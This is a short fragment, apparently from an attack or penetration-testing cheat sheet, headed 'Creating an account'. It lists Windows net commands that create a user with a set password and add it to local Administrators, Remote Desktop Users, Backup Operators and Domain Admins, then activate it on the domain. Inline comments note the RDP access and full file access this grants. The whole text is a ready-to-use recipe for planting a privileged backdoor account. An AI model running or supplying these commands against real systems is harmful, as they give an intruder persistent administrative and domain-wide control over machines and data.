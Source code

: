 #### Creating an account
`net user name Username12345678* /add /Y`
`net localgroup administrators name /add`
`net localgroup "Remote Desktop Users" name /add` #access RDP
`net localgroup "Backup Operators" name /add` #full acceess to files
`net group "Domain Admins" name /add /domain` 
`net user name /ACTIVE:YES /domain` #enables domain user account
